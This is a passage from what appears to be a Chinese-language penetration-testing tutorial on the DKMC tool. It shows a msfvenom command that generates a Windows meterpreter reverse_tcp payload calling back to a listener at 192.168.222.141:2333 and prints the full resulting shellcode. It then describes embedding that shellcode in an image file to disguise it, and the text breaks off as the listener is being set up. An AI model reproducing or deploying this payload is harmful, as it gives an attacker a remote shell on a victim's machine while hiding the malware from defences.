 
## 利用

使用msfvenom生成shellcode：

```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.222.141 LPORT=2333 -f c > cat.c
```

![](/img/hack/DKMC/1505273068236.png)

shellcode内容如下：

```
\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\xc0\xa8\xde\x8d\x68\x02\x00\x09\x1d\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x61\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9\x71\xff\xff\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5
```

使用DKMC，将shellcode写入图片文件：

![](/img/hack/DKMC/1505273199594.png)

在msf中配置，监听：

